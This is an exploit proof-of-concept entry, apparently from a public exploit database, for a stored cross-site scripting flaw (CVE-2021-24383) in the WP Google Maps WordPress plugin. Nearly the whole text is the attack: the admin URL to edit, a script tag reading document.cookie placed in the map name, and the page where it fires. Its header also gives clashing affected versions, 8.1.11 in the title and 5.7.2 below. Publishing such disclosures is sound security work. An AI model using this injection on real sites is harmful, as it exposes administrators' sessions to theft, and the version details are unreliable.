     # Exploit Title: WordPress Plugin WP Google Maps 8.1.11 - Stored Cross-Site Scripting (XSS)
    # Date: 22/6/2021
    # Exploit Author: Mohammed Adam
    # Vendor Homepage: https://www.wpgmaps.com/
    # Software Link: https://wordpress.org/plugins/wp-google-maps/
    # Version: 5.7.2
    # Tested on: Windows 10
    # CVE: CVE-2021-24383
    # References link: https://wpscan.com/vulnerability/1270588c-53fe-447e-b83c-1b877dc7a954

    *Proof of Concept*

    *Steps to Reproduce:*

    1) Edit a map (e.g
    /wp-admin/admin.php?page=wp-google-maps-menu&action=edit&map_id=1)

    2) Change Map Name to <script>alert(document.cookie)</script>

    3) Save the Map

    4) Stored XSS will be triggered when viewing the Map List
    (/wp-admin/admin.php?page=wp-google-maps-menu)